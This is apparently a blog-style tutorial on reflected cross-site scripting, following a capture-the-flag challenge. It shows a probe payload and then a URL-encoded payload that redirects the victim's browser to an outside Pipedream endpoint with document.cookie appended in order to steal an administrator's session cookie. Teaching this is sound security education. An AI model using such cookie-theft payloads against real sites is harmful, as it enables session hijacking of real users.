



# Introduction
**Cross-Site Scripting (XSS)** Attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user whitin the output it generates without **validating or encoding it.**

#### There are three types of XSS, which are:

- Stored
- Reflected
- DOM-based

You can find more information about them [here](https://owasp.org/www-community/Types_of_Cross-Site_Scripting).

Today I will be explaining _Reflected XSS_. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:

  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.


## Hands on!!

In this example, I will follow along a hacking challenge from a platform, so some screenshots will be chopped/painted.

Put this situation: you have an input which the user can controll (as for example, a parameter in the url) which then gets reflected in the web you are trying to hack.
We found this page, where you input some URL, and when it's not found, it just returns that the page is not found, referencing it with a link.

As the name ((Reflected-XSS)) suggests, we can see that our input is **reflected** within the webpage:


This input should be sanitized/disabled, for example telling our webserver to remove URL queries, otherwise we could try to change this with a custom payload, such as: 

```javascript
'onmousemove='alert(1)
```

Come along with me, check if we can inject some JS inside the URL query:




Nice! Now that we see we can inject javascript, move forward to steal the administrator's cookie. :cookie:

For this purpose I will use [Pipedream](https://pipedream.com) (bafore called pastebin), but you can use any endpoint of your choice.

In order to take the administrator's cookie, I am going to change my payload aiming the query to my endpoint so I can receive my cookie!
My new payload will be:
```javascript
?p=%27%20onmouseover=%27setTimeout(function()%7Bdocument.location=%22https://[[[pipedream_endpoint]]]pipedream.net?%22.concat(document.cookie);%7D,1)
```

A simple explanation about the modified payload:
1. The [setTimeout](https://www.w3schools.com/jsref/met_win_settimeout.asp) function is used to trigger a custom function, as the parameter is called with 1ms (0,001 seconds) thus always hitting the race condition.
2. The ['Document Location'](https://developer.mozilla.org/en-US/docs/Web/API/Document/location) directive is used to send the administrator's cookie to our custom endpoint.
3. The [Document.Cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) parameter will show us the cookie.

This way we will send the cookie to our endpoint and check for it's results:


As this is from a cybersecurity challenge, won't show the flag. But you can see the query which contain the cookie we wanted.

And this is all for tonight! :night_with_stars: